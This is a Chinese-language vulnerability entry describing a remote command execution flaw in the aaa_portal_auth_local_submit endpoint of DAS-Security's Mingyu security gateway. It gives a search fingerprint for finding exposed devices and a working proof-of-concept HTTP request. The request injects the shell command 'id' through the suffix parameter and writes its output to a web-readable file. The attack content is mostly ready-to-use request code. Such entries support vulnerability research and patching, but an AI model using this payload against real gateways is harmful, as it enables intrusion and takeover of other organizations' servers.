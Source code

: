 # 安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

## 漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>安恒 明御安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/webui/images/basic/login/" && title=="明御安全网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648357678171-6c786cb6-1bdb-43c0-a94b-4c2ed4ff3cd0.png)

验证POC

```plain
GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix={{urlenc(`id >/usr/local/webui/test.txt`)}} HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692062626150-36022103-f317-4818-bac9-f11851fbd281.png)

```plain
/test.txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692062651462-caaf6133-21b4-4566-947b-a9fe6e2f2502.png)